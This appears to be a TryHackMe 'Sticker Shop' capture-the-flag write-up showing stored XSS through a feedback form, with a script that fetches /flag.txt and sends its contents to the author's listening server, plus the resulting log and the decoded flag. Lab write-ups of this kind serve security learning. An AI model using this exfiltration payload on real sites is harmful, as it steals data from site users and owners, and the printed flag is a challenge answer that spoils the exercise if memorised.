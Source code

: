 ```yaml
---
title: Sticker Shop
date: 2025-1-1 00:00:00
categories: Cybersecurity
tags:
  - THM
  - Writeups
by: Mahmud
---
```


we need to find the flag in `http://10.10.206.150:8080/flag.txt`

so when enter web page there is feedback tab we can use it for HTML injuction 
lets test it
1. on linux start webserver usng `pyton3 -m http.server 8080`

2. inject feedback with 

```html
   <img src='YourIP:8080'>
```

1. you should see request in teminal so the injuction success 

2. so using chatgpt i create custom injuction 

```html
   <script>
    fetch('/flag.txt')
        .then(response => response.text())
        .then(data => {
            // Redirect to your server with the flag as a query parameter
            window.location.href = 'http://10.21.49.29:9091/?flag=' + encodeURIComponent(data);
        });
</script>

```

1. you will receive

 ```bash
   10.10.206.150 - - [11/Jan/2025 01:03:11] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -

```
1. using URL decoder on  `flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D`
2. the flag is `THM{83789a69074f636f64a38879cfcabe8b62305ee6}`
